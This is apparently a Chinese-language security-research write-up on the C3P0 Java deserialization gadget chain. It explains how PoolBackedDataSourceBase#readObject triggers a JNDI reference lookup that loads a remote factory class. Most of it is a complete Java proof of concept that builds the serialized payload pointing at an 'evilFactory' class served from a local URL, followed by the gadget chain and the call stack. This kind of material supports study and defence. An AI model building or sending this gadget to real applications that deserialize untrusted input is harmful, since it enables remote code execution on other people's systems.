






- [C3P0 Gadget](#c3p0-gadget)
  - [依赖](#依赖)
  - [c3p0](#c3p0)
    - [Gadget chain](#gadget-chain)
  - [POC](#poc)

# C3P0 Gadget
## 依赖
```
com.mchange:c3p0:0.9.5.2
com.mchange:mchange-commons-java:0.2.11
```
## c3p0
C3P0是一个开放源代码的JDBC连接池,在`PoolBackedDataSourceBase#readObject()`方法中会调用ObjectInputStream中的`Object#getObject()`方法,其中要求该object需要是`IndirectlySerialized`类的子类.
  
而在`ReferenceIndirector`类中有一个静态内部类`ReferenceSerialized`正好继承了`IndirectlySerialized`,并且其`getObject()`方法中存在JNDI注入.  
  
其中可以看到如果`contextName`不为空,則会`lookup()`,然后最后返回的是调用`ReferenceableUtils.referenceToObject()`.  
  
而`ReferenceableUtils.referenceToObject()`明显是一个根据引用来远程加载工厂类再进行构造指定对象的方法,也就是JNDI注入利用reference来RCE的方式.
再来看看`PoolBackedDataSourceBase`类的序列化`writeObject`流程.  

如果`connectionPoolDataSource`属性不能被序列化时,那么会对`connectionPoolDataSource`属性
调用一次`Indirector#indirectForm()`方法.  
  
这其中返回的其实就是根据`connectionPoolDataSource`对象的`getReference`方法返回的引用构造了内部私有的`ReferenceSerialized`类对象.  
### Gadget chain
```
 * com.mchange.v2.naming.ReferenceableUtils->referenceToObject
 * com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized->getObject
 * com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase->readObject
```
## POC
核心思路則是将`PoolBackedDataSourceBase`的`connectionPoolDataSource`属性设置为一个继承于`ConnectionPoolDataSource`类的子类对象.   
```java
import com.mchange.v2.c3p0.PoolBackedDataSource;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.PrintWriter;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class C3P0 {
    public static Object getGadget() throws IllegalAccessException, NoSuchMethodException, InvocationTargetException, InstantiationException, NoSuchFieldException {
        Constructor con = PoolBackedDataSource.class.getDeclaredConstructor(new Class[0]);
        con.setAccessible(true);
        PoolBackedDataSource obj = (PoolBackedDataSource) con.newInstance(new Object[0]);
        Field conData = PoolBackedDataSourceBase.class.getDeclaredField("connectionPoolDataSource");
        conData.setAccessible(true);
        conData.set(obj, new PoolSource("evilFactory", "http://127.0.0.1:8089/"));
        return obj;

    }

    private static final class PoolSource implements ConnectionPoolDataSource, Referenceable {

        private String className;
        private String url;

        public PoolSource ( String className, String url ) {
            this.className = className;
            this.url = url;
        }

        public Reference getReference () throws NamingException {
            return new Reference("evilFactory", this.className, this.url);
        }

        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }
    }
}

```

调用栈:  
```
referenceToObject:93, ReferenceableUtils (com.mchange.v2.naming)
getObject:118, ReferenceIndirector$ReferenceSerialized (com.mchange.v2.naming)
readObject:211, PoolBackedDataSourceBase (com.mchange.v2.c3p0.impl)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1184, ObjectStreamClass (java.io)
readSerialData:2296, ObjectInputStream (java.io)
readOrdinaryObject:2187, ObjectInputStream (java.io)
readObject0:1667, ObjectInputStream (java.io)
readObject:503, ObjectInputStream (java.io)
readObject:461, ObjectInputStream (java.io)
main:12, Gadget
```